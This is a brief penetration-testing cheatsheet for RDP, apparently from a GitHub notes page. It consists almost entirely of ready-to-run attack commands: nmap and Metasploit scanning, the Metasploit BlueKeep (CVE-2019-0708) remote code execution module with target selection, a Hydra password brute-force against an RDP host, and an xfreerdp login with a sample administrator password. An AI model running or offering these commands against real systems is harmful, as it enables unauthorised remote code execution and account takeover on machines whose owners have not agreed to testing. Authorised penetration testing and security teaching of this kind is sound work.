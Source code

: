 ```yaml
---
description: Cheatsheets for RDP
---
```


# 3389 - Pentesting RDP

### Nmap

```bash
nmap -sV $ip
```

Nmap Scripts

### Metasploit

```bash
msfconsole
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.0.0.31
set RPORT 3333
exploit
```

#### BlueKeep Exploit (Metasploit)

```bash
#Scanning
search scanner/rdp/cve_2019_0708_bluekeep
set rhosts $ip
run
#exploitation
search exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set rhosts $ip
show targets
set target 2
run
```

### Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333
```

### xfreerdp

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333
```

